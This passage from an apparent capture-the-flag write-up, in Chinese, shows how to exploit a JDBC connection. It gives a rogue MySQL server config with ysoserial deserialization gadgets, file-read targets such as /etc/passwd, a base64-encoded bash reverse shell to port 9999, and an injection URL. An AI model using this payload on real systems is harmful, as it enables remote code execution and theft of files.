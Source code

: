 [![](assets/1707954377-bee2315cba7fe7750079ca261670d7d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173738-08c458c2-c341-1.png)

可以参考[蓝帽杯 2022 决赛 – 赌怪 writeup](https://www.cnblogs.com/kingbridge/articles/16720318.html)打 JDBC

config.json 配置 ([ysoserial-all.jar](https://github.com/frohoff/ysoserial)和 server.py 放一起)，bash -c 后面替换成 base64 后反弹 shell 的 payload

```bash
{
        "config":{
            "ysoserialPath":"ysoserial-all.jar",
            "javaBinPath":"java",
            "fileOutputDir":"./fileOutput/",
            "displayFileContentOnScreen":true,
            "saveToFile":true
        },
        "fileread":{
            "win_ini":"c:\\windows\\win.ini",
            "win_hosts":"c:\\windows\\system32\\drivers\\etc\\hosts",
            "win":"c:\\windows\\",
            "linux_passwd":"/etc/passwd",
            "linux_hosts":"/etc/hosts",
            "index_php":"index.php",
            "ssrf":"https://www.baidu.com/",
            "__defaultFiles":["/etc/hosts","c:\\windows\\system32\\drivers\\etc\\hosts"]
        },
        "yso":{
            "Jdk7u21":["Jdk7u21","calc"],
            "CommonsCollections6":["CommonCollections6","bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUueHgueHgueHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"]
        }
    }
```

攻击路径

```bash
/user/list?search=paylaod
```
